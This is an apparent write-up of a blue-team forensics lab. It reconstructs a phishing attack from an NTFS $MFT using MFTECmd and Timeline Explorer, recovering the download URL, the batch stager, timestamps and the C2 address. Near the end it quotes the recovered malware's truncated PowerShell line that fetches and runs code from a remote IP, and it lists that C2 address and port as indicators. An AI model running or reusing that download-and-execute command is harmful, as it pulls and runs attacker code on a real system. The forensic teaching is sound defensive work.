BFT
Overview
BFT is a Blue Team Sherlock focused on NTFS forensic analysis using the $MFT
(Master File Table). The goal is to reconstruct a phishing-driven attack chain by identifying the
initial malicious download, recovering the Host URL from Zone.Identifier metadata, locating the executed
payload, validating file timestamps, calculating the MFT record offset, and extracting the C2 server from
resident file data.
What is $MFT
$MFT is the core structure of the NTFS filesystem. It stores metadata for files and folders,
including file names, paths, timestamps, file size, attributes, and deletion status. Because the
$MFT is raw binary data, it must be parsed with forensic tooling before it can be reviewed
efficiently.
Tools Used
- MFTECmd by Eric Zimmerman, used to parse
$MFTinto CSV. - Timeline Explorer, used to review and filter the parsed timeline.
Environment Setup
I used Get-ZimmermanTools.ps1 to download the Zimmerman toolset with the net9 build.
Required dependency:
.NET Desktop Runtime 9 (x64)Evidence Preparation
The Sherlock evidence was extracted from the provided archive:
BFT.zipResulting evidence structure:
BFT\
+-- C\
+-- $MFTParsing the MFT
Initial parse command:
& "C:\Users\moree39\Documents\Get-ZimmermanTools-master\net9\MFTECmd.exe" -f 'C:\Users\moree39\Downloads\BFT\C\$MFT' --csv "C:\Users\moree39\Downloads\output" --csvf mft.csv
$MFT evidence into a CSV timeline.Open Timeline Explorer:
TimelineExplorer.exeLoad the parsed CSV:
mft.csv
Task 1 - Initial Malicious Download
Question: Simon Stark was targeted by attackers on February 13. He downloaded a ZIP file from a link received in an email. What was the name of the ZIP file he downloaded from the link?
Goal: Find the ZIP file downloaded on February 13.
Filter for ZIP files:
.zipFocus on the Downloads directory:
C:\Users\simon.stark\DownloadsSort by creation time:
Created0x10
Timeline reconstruction:
16:34 -> Stage-20240213T093324Z-001.zip
16:35 -> invoices.zip
16:38 -> invoice.batThe first ZIP file is the original downloaded file. The later files are related to extraction or execution.
Answer:
Stage-20240213T093324Z-001.zipTask 2 - Host URL IOC
Question: Examine the Zone Identifier contents for the initially downloaded ZIP file. This field reveals the HostUrl from where the file was downloaded, serving as a valuable Indicator of Compromise (IOC) in the investigation. What is the full Host URL from where this ZIP file was downloaded?
Key concept: Windows stores download-origin metadata in the
Zone.Identifier alternate data stream (ADS). This can include the HostUrl.
Zone.Identifier stores values such as:
HostUrl=...Re-run MFTECmd with resident data enabled:
& "C:\Users\moree39\Documents\Get-ZimmermanTools-master\net9\MFTECmd.exe" -f 'C:\Users\moree39\Downloads\BFT\C\$MFT' --csv "C:\Users\moree39\Downloads\output" --csvf mft_full.csv --ir
--ir to include resident data.

Load the new CSV into Timeline Explorer:
mft_full.csvFilter for the initial ZIP:
Stage-20240213T093324Z-001.zipLocate the related ADS entry:
Stage-20240213T093324Z-001.zip:Zone.Identifier
Extracted Host URL:
https://storage.googleapis.com/drive-bulk-export-anonymous/20240213T093324.039Z/4133399871716478688/a40aecd0-1cf3-4f88-b55a-e188d5c1c04f/1/c277a8b4-afa9-4d34-b8ca-e1eb5e5f983c?authuserAnswer:
https://storage.googleapis.com/drive-bulk-export-anonymous/20240213T093324.039Z/4133399871716478688/a40aecd0-1cf3-4f88-b55a-e188d5c1c04f/1/c277a8b4-afa9-4d34-b8ca-e1eb5e5f983c?authuserTask 3 - Malicious Executable
Question: What is the full path and name of the malicious file that executed malicious code and connected to a C2 server?
Goal: Find the file that executed malicious code.
Filter for batch scripts:
.batFocus on the Downloads directory and the extracted phishing ZIP contents.

invoice.bat file appears inside the extracted phishing content.Suspicious path identified:
.\Users\simon.stark\Downloads\Stage-20240213T093324Z-001\Stage\invoice\invoicesFull malicious file path:
C:\Users\simon.stark\Downloads\Stage-20240213T093324Z-001\Stage\invoice\invoices\invoice.batThis file is suspicious because it was delivered through the phishing ZIP, created in the user's Downloads directory, and associated with Internet-origin metadata.
Answer:
C:\Users\simon.stark\Downloads\Stage-20240213T093324Z-001\Stage\invoice\invoices\invoice.batTask 4 - File Creation Timestamp
Question: Analyze the $Created0x30 timestamp for the previously identified
file. When was this file created on disk?
Key concept: The $Created0x30 timestamp represents the original filename
attribute creation time and can be more reliable than the standard information timestamp in some cases.
| Field | Meaning |
|---|---|
Created0x10 |
Standard Information timestamp, more easily modified. |
Created0x30 |
Filename Attribute timestamp, useful for original creation context. |

Created0x30 timestamp provides the file creation time used for the answer.Extracted value:
2024-02-13 16:38:39.9341426Answer:
2024-02-13 16:38:39Task 5 - MFT Hex Offset
Question: Finding the hex offset of an MFT record is beneficial in many investigative scenarios. Find the hex offset of the stager file from Question 3.
Finding the hex offset of an MFT record is useful for deeper forensic validation.
Each MFT record is 1024 bytes:
Offset = EntryNumber x 1024
Calculation:
Entry Number x 1024 = 23998464
Hex = 0x16E3000Answer:
16E3000Task 6 - C2 from Resident Data
Question: Extract the C2 server from the resident file data for the malicious batch script. What IP and port does the payload connect to?
Small files can be resident, meaning their content is stored directly inside the MFT record. The malicious batch file was only 286 bytes, so its script content could be recovered from resident data.

Resident-file indicator:
File size: 286 bytes -> residentMFTECmd was executed with resident data extraction:
& "C:\Users\moree39\Documents\Get-ZimmermanTools-master\net9\MFTECmd.exe" -f 'C:\Users\moree39\Downloads\BFT\C\$MFT' --csv "C:\Users\moree39\Downloads\output" --csvf mft_full.csv --irRecovered script content included a PowerShell web request:


powershell ... iwr('http://43.204.110.203:6666/...') | iexExtracted C2:
43.204.110.203:6666Answer:
43.204.110.203:6666Final Attack Chain
- User downloads a phishing ZIP file.
- The ZIP is extracted into the user's Downloads directory.
- A malicious batch file is created on disk.
- The script executes PowerShell.
- PowerShell connects to the C2 server.
Key Takeaways
$MFTis extremely useful for reconstructing filesystem timelines.Zone.IdentifierADS entries can expose valuable download-origin IOCs.- Resident files may contain the full malicious payload directly inside the MFT.
- Timeline analysis helps connect download, extraction, execution, and C2 activity.